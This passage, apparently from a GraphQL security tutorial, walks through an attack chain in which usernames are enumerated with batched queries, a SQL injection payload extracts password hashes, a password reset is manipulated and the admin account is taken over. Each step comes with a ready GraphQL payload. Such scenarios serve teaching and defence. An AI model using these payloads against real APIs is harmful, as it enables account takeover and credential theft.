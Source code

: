 ```graphql
[
  { "query": "query { user(username: \"admin\") { id } }" },
  { "query": "query { user(username: \"john\") { id } }" },
  { "query": "query { user(username: \"sarah\") { id } }" },
  # ... many more
]
```

5. **SQL Injection to Retrieve Password Hashes**: The attacker discovers a SQL injection vulnerability in the user query.

```graphql
query {
  user(username: "admin' UNION SELECT id, username, password_hash as email, 'token' as resetToken FROM users --") {
    id
    username
    email  # This will contain password hashes
    resetToken
  }
}
```

6. **Password Reset Manipulation**: Using the discovered SQL injection, the attacker manages to reset a user's password by manipulating the resetToken field.

```graphql
mutation {
  resetPassword(input: {
    username: "admin",
    token: "STOLEN_OR_GENERATED_TOKEN",
    newPassword: "hacked_password"
  }) {
    success
  }
}
```

7. **Account Takeover**: With the password reset, the attacker now has full control of the admin account.

```graphql
mutation {
  login(username: "admin", password: "hacked_password") {
    token
    user {
      id
      role
    }
  }
}
```

### Scenario 2: DoS to Data Exfiltration
